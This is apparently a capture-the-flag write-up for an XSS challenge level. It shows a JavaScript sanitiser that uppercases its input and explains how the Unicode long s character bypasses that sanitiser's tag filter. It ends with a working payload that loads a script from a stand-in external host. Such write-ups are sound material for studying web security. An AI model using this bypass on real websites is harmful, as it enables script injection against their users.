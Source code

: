 # level 9

```js
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();
    
    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}        
```
toUpperCase() method converts not only English alphabet, but also some Unicode characters, The ſ character, when passed to the toUpperCase() function would be converted to the ASCII character "S" hence solving our problem.

a payload like this should work : '<ſcript src="https://evil_js_containing.com/prompt.js"></ſcript>'
